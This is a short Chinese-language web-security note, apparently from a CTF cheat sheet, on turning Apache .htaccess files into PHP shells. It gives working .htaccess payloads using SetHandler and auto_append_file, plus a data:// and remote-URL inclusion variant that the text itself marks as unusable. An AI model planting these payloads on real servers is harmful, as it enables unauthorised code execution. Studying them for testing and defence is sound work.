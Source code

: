 



### .htaccess shell 与 XSS

例如下面这个.htaccess文件，首先设置了禁用拒绝规则，这样便可直接访问到.htaccess；接着用`SetHandler`将所有文件作为php解析，最后写入php代码，开头用`#`注释掉，这样便可成功解析.htaccess，然后解析php：

```xml
<Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```



相关的关于.htaccess的shell，可参考github上一个项目：里面有各种语言的shell。

https://github.com/wireghoul/htshells



#### php code execution

index.php: (empty)

.htaccess:

```
php_value auto_append_file .htaccess
#<?php phpinfo();
```



#### (direct/remote) file inclusion（不可用）

index.php: (empty)

.htaccess:

```
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://sektioneins.de/evil-code.txt
```



打开allow_url_include 后，可以直接远程文件包含，也可以用data协议getshell



**查阅文档后发现allow_url_include不可用htaccess来进行修改**
